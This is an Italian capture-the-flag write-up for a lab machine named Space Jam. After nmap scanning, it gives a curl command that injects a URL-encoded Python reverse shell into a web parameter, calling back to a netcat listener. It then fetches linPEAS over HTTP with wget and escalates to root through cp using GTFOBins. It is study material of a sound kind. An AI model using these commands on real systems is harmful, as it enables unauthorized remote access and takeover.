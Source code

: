 #Space-Jam
### ENUM
partiamo con uno scan della macchina

```bash
nmap Spacejam.thm -sV -sC 
```

troviamo cosi la porta 3000 aperta(se non la trovate lanciate questo comando
```bash
nmap Spacejam.thm -sV -p-
```
mettiamoci in ascolto su una porta aperta da noi
```bash
nc -lvnp 4444
```

mandiamo una richiesta alla porta 3000 con una reverse shell
```bash
curl "Spacejam.thm:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ilvostroip>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
```

ecco la nostra shell sul primo terminale
## privesc
mettiamo linPEAS sulla macchina (scaricatevelo prima!!)

apriamo un server http sulla nostra macchina dove è contenuto linPEAS
```bash
python -m http.server 80
```

facciamo una richiesta sulla shell ottenuta prima tramite questo comando
```bash
wget http://ipvostro/linPEAS.sh
```

diamogli i giusti permessi
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

ecco la nostra vulnerabilità sul comando cp usiamo GTFO.BINS per capire che comando eseguire e siamo root

